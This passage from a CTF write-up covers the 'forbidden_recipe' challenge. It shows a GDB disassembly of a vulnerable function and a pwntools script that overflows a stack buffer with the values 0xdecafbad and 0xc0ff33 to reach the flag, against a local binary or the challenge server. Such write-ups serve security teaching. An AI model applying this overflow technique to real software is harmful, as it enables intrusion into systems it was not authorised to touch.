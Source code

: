 ```
  0x0804864f <+105>:   call   0x804856b <win>  
  0x08048654 <+110>:   jmp    0x804867c <vuln+150>  
  0x08048656 <+112>:   sub    esp,0x4  
  0x08048659 <+115>:   push   DWORD PTR [ebp-0x10]  
  0x0804865c <+118>:   push   DWORD PTR [ebp-0xc]  
  0x0804865f <+121>:   push   0x8048860  
  0x08048664 <+126>:   call   0x8048400 <printf@plt>  
  0x08048669 <+131>:   add    esp,0x10  
  0x0804866c <+134>:   sub    esp,0xc  
  0x0804866f <+137>:   push   0x80488a4  
  0x08048674 <+142>:   call   0x8048430 <puts@plt>  
  0x08048679 <+147>:   add    esp,0x10  
  0x0804867c <+150>:   nop  
  0x0804867d <+151>:   leave  
  0x0804867e <+152>:   ret  
End of assembler dump.
```
We can see the `cmp` instructions at `main+71` and `main+80`, where the values compared are `0xc0ff33` and `0xdecafbad`. By placing these values at the corresponding offsets in little-endian format, we can get the flag.
Exploit.py
```
from pwn import *  
context.log_level = 'critical'  
elf = context.binary = ELF('./forbidden_recipe')  
  
gdbscript = '''  
break *main  
continue  
'''  
  
if args.REMOTE:  
   p = remote('chals1.apoorvctf.xyz', 3002)  
elif args.GDB:  
    p = gdb.debug(elf.path, gdbscript=gdbscript)  
else:  
   p = process(elf.path)     
  
log.info("\\\\n==== start exploit ====\\\\n")  
p.recvuntil(b"Barista: 'I remember you... what will it be this time?'")  
payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaa\xad\xfb\xca\xde3\xff\xc0\x00'  
p.sendline(payload)  
print(p.recv())  
p.interactive()
```



------------------------------------------------------------------------

## Kogarashi Café - The Secret Blend
